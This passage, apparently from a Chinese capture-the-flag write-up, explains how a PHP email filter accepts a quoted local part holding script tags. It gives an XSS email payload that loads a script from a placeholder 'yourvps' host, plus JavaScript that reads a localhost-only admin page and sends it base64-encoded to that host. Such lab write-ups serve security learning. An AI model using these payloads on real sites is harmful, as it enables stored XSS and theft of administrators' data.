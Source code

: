 ![](assets/webwp-b1ad87e0.png)
flag：SWPUCTF{Php_un$eri4liz3_1s_Fu^!}

## 有趣的邮箱注册
访问admin.php会显示只有localhost才能访问，估计是要用xss来进行ssrf。

源码中发现check.php部分代码
```php
<?php
if($_POST['email']) {
$email = $_POST['email'];
if(!filter_var($email,FILTER_VALIDATE_EMAIL)){
echo "error email, please check your email";
}else{
echo "等待管理员自动审核";
echo $email;
}
}
?>
```
可以看到利用了FILTER_VALIDATE_EMAIL过滤器来过滤注册的邮箱，是不安全的。

可以参考p神师傅的文章：https://www.leavesongs.com/PENETRATION/some-tricks-of-attacking-lnmp-web-application.html
邮箱地址分为local part和domain part两部分，local part中可以利用双引号来包含特殊字符。如”<svg/onload=alert(1)>”@example.com是合法的

所以我们可以构造”<scRipt/src=http://yourvps/123.js></scriPt>”@qq.com进行xss。但是发现打到的cookie为空，所以只能利用ajax来读取后台页面。
```javascript
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://yourvps/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","admin.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send();
```
在自己的vps上监听端口，即可收到请求。
